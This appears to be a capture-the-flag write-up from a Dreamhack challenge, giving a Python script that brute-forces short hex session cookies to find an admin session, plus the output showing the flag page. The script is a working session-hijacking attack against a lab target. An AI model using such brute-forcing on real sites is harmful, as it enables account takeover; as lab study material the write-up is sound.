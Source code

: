 `script` 

```python
import requests
import itertools

url = "http://host1.dreamhack.games:22910/"

session_ids = [f"{i:02x}" for i in range(256)]

for session_id in session_ids:
    cookies = {'sessionid': session_id}
    response = requests.get(url, cookies=cookies)

    if "DH{" in response.text:
        print(f"Found admin session! Session ID: {session_id}")
        print(response.text)
        break
else:
    print("Admin session not found.")

```

`output`

```html
Found admin session! Session ID: db
<!doctype html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    <link rel="stylesheet" href="/static/css/bootstrap-theme.min.css">
    <link rel="stylesheet" href="/static/css/non-responsive.css">
    <title>Index Session</title>
    
  
  <style type="text/css">
    .important { color: #336699; }
  </style>

  </head>
<body>

    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Session</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="#">About</a></li>
          </ul>

          <ul class="nav navbar-nav navbar-right">
            <li><a href="/login">Login</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav>
    <!--
      # default account: guest/guest
    -->
```

[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".